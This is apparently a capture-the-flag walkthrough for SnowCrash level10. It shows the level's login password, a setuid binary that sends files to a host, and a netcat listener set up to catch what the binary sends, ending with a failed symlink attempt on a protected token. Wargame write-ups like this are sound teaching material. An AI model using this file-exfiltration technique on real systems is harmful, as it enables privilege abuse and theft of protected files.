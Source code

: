 ## level10
```
flag09@SnowCrash:~$ su level10
Password: s5cAJpM8ev6XHw998pRWG728z
level10@SnowCrash:~$
```
```
level10@SnowCrash:~$ ll
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 ./
d--x--x--x  1 root    users     340 Aug 30  2015 ../
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout*
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-r-x------  1 level10 level10   675 Apr  3  2012 .profile*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
```
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
```
```
level10@SnowCrash:~$ ./level10 .bashrc 0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```
i use `tmux` for multi windows  
`0.0.0.0:6969` we will be listen this port with  help `nc`
```
nc -l 6969
```
create file for test connection 
```
echo Hello! > /tmp/test
./level10 /tmp/test 0.0.0.0
```
```
level10@SnowCrash:~$ nc -l 6969
.*( )*.
hello!
```
create link for `token`
```
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
You don't have access to /tmp/link
```
